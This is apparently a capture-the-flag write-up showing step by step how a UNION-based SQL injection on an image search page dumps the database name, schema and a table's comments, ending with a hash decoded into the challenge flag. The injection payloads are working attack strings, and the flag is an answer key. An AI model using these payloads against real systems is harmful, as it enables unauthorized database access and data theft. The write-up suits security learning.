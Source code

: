 # SQLI 1

On search image I tried basic sqli 

> 1 or 1=1

I got all the Images so basically there is sqli in search image page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database namme to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_images

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(id,url,title,comment) from list_images

fifth image got a sus comment lets decrypt it

> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


we got albatroz => tolower() => albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
